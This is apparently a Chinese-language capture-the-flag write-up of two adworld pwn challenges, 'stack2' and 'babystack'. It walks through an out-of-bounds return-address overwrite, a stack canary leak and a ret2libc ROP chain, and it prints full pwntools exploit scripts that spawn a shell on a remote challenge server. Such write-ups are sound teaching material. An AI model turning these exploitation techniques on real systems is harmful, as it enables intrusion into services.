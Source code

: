 ```yaml
---
title: adworld pwn部分writeUp
tags: [pwn]
description: pwn writeUp
---
```


### stack2  

---

&emsp;&emsp;首先checksec一下发现有canary，然后托到ida里看一下，发现大部分变量都是 **unsigned int** 类型，考虑到可能会有整数溢出。接着我们发现可以通过 **change number** 选项来直接修改栈上的数据，因此我们想到直接修改返回地址，如图：  

![stack2_1](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/stack2_1.jpg?raw=true)

&emsp;&emsp;接着我们发现 **hackhere** 函数，里面是直接调用的  

```c
system("/bin/bash");
```

![stack2_2](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/stack2_2.jpg?raw=true)
&emsp;&emsp;因此，我们可以直接将返回地址修改为这里，我们注意到数组的类型是 **char** ，因此在发送payload的时候可以直接按照小端序字符逐位发送。

&emsp;&emsp;但是这里有一个坑点，我们通过静态分析发现数组距离 **return_addr** 的位置为0x74：  

![stack2_3](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/stack2_3.jpg?raw=true)  

&emsp;&emsp;但是我们在实际动态调试的时候发现其实际偏移为0x84，这里是因为，在进入main函数时进行了一步esp的对齐：  

```assembly
#开头
|           ; arg int arg_4h @ esp+0x4
|           0x080485d0      8d4c2404       lea ecx, dword [arg_4h]     ; 4
|           0x080485d4      83e4f0             and esp, 0xfffffff0
|           0x080485d7      ff71fc               push dword [ecx - 4]
|           0x080485da      55                      push ebp
|           0x080485db      89e5                 mov ebp, esp
|           0x080485dd      51                      push ecx

----------------------------------------------------------------
#结尾
|           0x080488eb      8b4dfc         mov ecx, dword [local_4h]
|           0x080488ee      c9             leave
|           0x080488ef      8d61fc         lea esp, dword [ecx - 4]
\           0x080488f2      c3             ret

```

&emsp;&emsp;其实这里没有必要深入计算，因为动态调试可以算出偏移为0x84,但是作为一个知识点，我们还是要讨论一下这个main函数的返回方式，我们遇到过很多main函数通过ecx进行返回，并且有esp对其的过程。  

&emsp;&emsp;这一次，首先将 **$esp + 4** 放入ecx，然后 `and esp,0xfffffff0` 的作用是将esp的后4位清零(一个16进制位代表4个2进制位)，然后将 **$ecx - 4** 压入栈中。注意，这里的 **$ecx - 4** 实际上就是return_addr,因为在进入main函数时，esp的位置就是return_addr,然后 `lea ecx, dword [arg_4h]` 这条语句将其实是把第一个参数的地址传给ecx，然后esp对齐后将return_addr压入栈中，然后就是正常的保存栈状态的操作。由于对齐esp的操作导致栈被拉长，拉伸的长度只能动态调试确定，此时栈大概是这样：  

```c
						high                                |		arg_4		 |
											 |	return_addr        |             return_addr 1                                  
											 |	 .....................	  |

after align	               							     some span

											 |		ecx - 4		  |				return_addr  2
											 |		    ebp              |
											 |                  ecx               |
			 			low                                  |      ....................         |
```


&emsp;&emsp;返回的时候就恢复ecx的值然后直接利用 **[ecx - 4]** 回到return_addr1的位置。

因此，payload如下：  

```python
from pwn import *

context.log_level = "debug"
system_addr = 0x804859B
#sh = process("./stack2")
sh = remote("111.198.29.45",53413)

sh.recv()
sh.sendline('1')
sh.recv()
sh.sendline('1')

def fuck(index, value):
    sh.sendline("3")
    sh.recv()
    sh.sendline(str(index))
    sh.recv()
    sh.sendline(str(value))
    sh.recv()

fuck(0x84,0x9b)
fuck(0x85,0x85)
fuck(0x86,0x04)
fuck(0x87,0x08)

sh.interactive()
```

&emsp;&emsp;但是打过去之后发现系统提示:  
```bash
"/usr/bin/bash" not found  
```

&emsp;&emsp;所以我们只好直接调用 **system**函数，并将sh传参给它，因此payload如下：  
```python
#!/usr/bin/env python
from pwn import *

context.log_level = "debug"

#sh = process("./stack2")
sh = remote("111.198.29.45",53413)

sys_addr = 0x0804859b

sh.recv()
sh.sendline('1')
sh.recv()
sh.sendline('1')

def fuck(index, value):
    sh.sendline("3")
    sh.recv()
    sh.sendline(str(index))
    sh.recv()
    sh.sendline(str(value))
    sh.recv()

fuck(0x84, 0x50)
fuck(0x85, 0x84)
fuck(0x86, 0x04)
fuck(0x87, 0x08)
#中间流出了4个字节，用于存放 fake_return_address
fuck(0x8c, 0x87)           #这里我们发现地址是奇数位，是因为我们直接把bash拆开成了sh
fuck(0x8d, 0x89)
fuck(0x8e, 0x04)
fuck(0x8f, 0x08)

sh.sendline("5")

sh.interactive()
```

### pwn1 babystack  

&emsp;&emsp;checksec后我们发现程序开启了canary，大概要进行canary的泄漏。  

![checksec](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/babstack_1.png?raw=true)  

&emsp;&emsp;在对main函数进行静态分析后我们发现了一个明显的溢出点，** read()** 函数存在经典溢出，而且在  **case 2** 处我们可以通过 **puts()** 函数泄露canary的值。  

![overflow](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/babstack_2.png?raw=ture)

&emsp;&emsp;对于canary的泄漏方式，最简单的一种是覆盖其最低为的 *\x00* 字节，防止截断，然后通过puts将其泄漏出来。  

&emsp;&emsp;仔细审计程序之后，我们基本清楚了攻击流程，首先这是一个经典的菜单类程序，通过case 1我们可以覆盖栈上的数据，因此，第一步我们先填充padding来覆盖canary的低位字节经计算offset为136个字节。

![canary](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/babstack_3.png?raw=true)

&emsp;&emsp;接着case 2打印canary，第二步，我们要通过rop来泄露system与bin_sh的地址。查询后发现了比较好用的 `pop rdi ; ret` .这个时候payload已经基本清楚了，用puts泄漏计算偏移，然后case 3退出是返回到main，接着case 3退出返回到system。  

![rop](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/babstack_4.png?raw=true)

```python
#!/usr/bin/env python
from pwn import *

#  sh = process('./babystack')
sh = remote('111.198.29.45',35646) 
context.log_level = 'debug'
elf = ELF('./babystack')
libc = ELF('./libc-2.23.so')

puts_got = elf.got['puts']
puts_plt = elf.symbols['puts']
puts_libc = libc.symbols['puts']
system_libc = libc.symbols['system']
pop_rdi = 0x00400a93
main = 0x00400908
log.info('puts_got ' + hex(puts_got))
log.info('puts_plt ' + hex(puts_plt))
log.info('puts_libc ' + hex(puts_libc))

padding = 'a' * 136

#get_canary
sh.recvuntil('>> ')
sh.sendline('1')
sh.sendline(padding)
sh.recvuntil('>> ')
sh.sendline('2')
sh.recvuntil('a' * 136)
canary = u64(sh.recv()[:8]) - 0xa
log.info('canary ' + hex(canary))

#get_system
def getTarget(target, canary):
    payload = 'a' * (0x90 - 0x8) + p64(canary) + 'b' * 8 + p64(pop_rdi) + p64(target) + p64(puts_plt)
    payload += p64(main)
    sh.recvuntil('>> ')
    sh.sendline('1')
    sleep(0.01)
    sh.sendline(payload)
    sh.recvuntil('>> ')
    sh.sendline('3')
    #  sh.recvuntil('b'*8)
    addr = u64(sh.recv()[:6].ljust(8, '\x00'))
    return addr

sh.sendline('\n')
sh.recv()
puts_addr = getTarget(puts_got, canary)
log.info('puts_addr ' + hex(puts_addr))

#get_offset_system_bin_sh 
offset = puts_addr - puts_libc
system_addr = system_libc + offset 
bin_sh = offset + libc.search("/bin/sh").next()
log.info('system_addr ' + hex(system_addr))
log.info('bin_sh ' + hex(bin_sh))

#fuckup
sh.sendline('\n')
sh.recv()
sh.sendline('1')
payload = 'a' * (0x90 - 0x8) + p64(canary) + 'b' * 8 + p64(pop_rdi) + p64(bin_sh) + p64(system_addr)
payload += p64(main)
sh.sendline(payload)
sh.recv()
sh.sendline('3')

sh.interactive()
```
&emsp;&emsp;在输入输出那里比较坑，需要多调几下。








